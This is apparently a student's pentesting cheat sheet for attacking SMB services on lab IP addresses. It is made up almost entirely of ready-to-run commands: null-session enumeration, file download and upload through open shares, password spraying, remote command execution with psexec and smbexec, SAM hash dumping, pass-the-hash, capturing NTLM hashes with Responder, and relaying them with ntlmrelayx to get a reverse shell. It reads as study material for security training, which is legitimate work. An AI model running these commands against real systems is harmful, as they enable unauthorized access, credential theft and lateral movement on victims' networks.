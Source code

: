 ### Misconfigurations

No Auth = null session 
	Anonymous login
#SMBClient
```shell
smbclient -N -L //10.129.14.128
```
#SMBMap
```shell
smbmap -H 10.129.14.128
```
```shell
smbmap -H 10.129.14.128 -r notes
```
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### #RPC 
Take advantage of null sessions 
Enumerate DC?
[cheat sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
```shell
rpcclient -U'%' 10.10.110.17
```

```shell
/enum4linux-ng.py 10.10.11.45 -A -C
```

### Password spray / #bruteforce 

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### #RCE
```shell
impacket-psexec -h (<impacket-psexec administrator:'Password123!'@10.10.110.17>)
```

```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Logged on Users

```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extracting SAM Hashes 

```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### #PtH

```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks 
Fake SMB Server to capture NTLM v1/2 hashes

```shell
responder -I <interface name>
```
crack creds on hashcat/john

Saved hashes will go to 
`/usr/share/responder/logs/`)

### Relay hash to [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)/ [multirelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
Set #SMB to of in responder 
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='
```

Execute ntlmrelayx
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Will dump SAM database,
execute commands with -c 

### Reverse shell
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c <powershell base 64>
```
Need client to connect to SMB share 

## Recent Vulns
[SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)
windows 10 1903 and 1909
Allows RE 
